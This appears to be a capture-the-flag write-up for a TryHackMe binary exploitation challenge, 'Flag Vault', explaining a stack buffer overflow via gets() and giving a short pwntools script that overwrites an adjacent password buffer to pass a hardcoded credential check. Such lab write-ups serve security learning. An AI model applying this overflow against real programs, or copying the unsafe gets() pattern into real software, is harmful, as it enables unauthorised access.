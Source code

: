 ```yaml
---
title: "Flag Vault"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

The challenge is a simple buffer overflow challenge.

```c
void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}
```

When we can overflow the `username` buffer, and we can overwrite the password buffer (we can't overwrite the return address because of the PIE).

```c
char s1[8]; // [rsp+0h] [rbp-E0h] BYREF
__int64 v2; // [rsp+8h] [rbp-D8h]
__int64 v3; // [rsp+10h] [rbp-D0h]
__int64 v4; // [rsp+18h] [rbp-C8h]
__int64 v5; // [rsp+20h] [rbp-C0h]
__int64 v6; // [rsp+28h] [rbp-B8h]
__int64 v7; // [rsp+30h] [rbp-B0h]
__int64 v8; // [rsp+38h] [rbp-A8h]
__int64 v9; // [rsp+40h] [rbp-A0h]
__int64 v10; // [rsp+48h] [rbp-98h]
__int64 v11; // [rsp+50h] [rbp-90h]
__int64 v12; // [rsp+58h] [rbp-88h]
int v13; // [rsp+60h] [rbp-80h]
char v14[8]; // [rsp+70h] [rbp-70h] BYREF
__int64 v15; // [rsp+78h] [rbp-68h]
__int64 v16; // [rsp+80h] [rbp-60h]
__int64 v17; // [rsp+88h] [rbp-58h]
__int64 v18; // [rsp+90h] [rbp-50h]
__int64 v19; // [rsp+98h] [rbp-48h]
__int64 v20; // [rsp+A0h] [rbp-40h]
__int64 v21; // [rsp+A8h] [rbp-38h]
__int64 v22; // [rsp+B0h] [rbp-30h]
__int64 v23; // [rsp+B8h] [rbp-28h]
__int64 v24; // [rsp+C0h] [rbp-20h]
__int64 v25; // [rsp+C8h] [rbp-18h]
int v26; // [rsp+D0h] [rbp-10h]
```

We can overwrite the `v14` variable where the offset is `0x70`, so we need to fill the buffer with `0x70` bytes and then write the password.

```py
from pwn import *

binary = './pwn1'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.23.57', 1337)

r.sendlineafter(b'Username: ', flat([
    b'bytereaper'.ljust(112, b'\x00'),
    b'5up3rP4zz123Byte\x00'
]))

r.interactive()
```
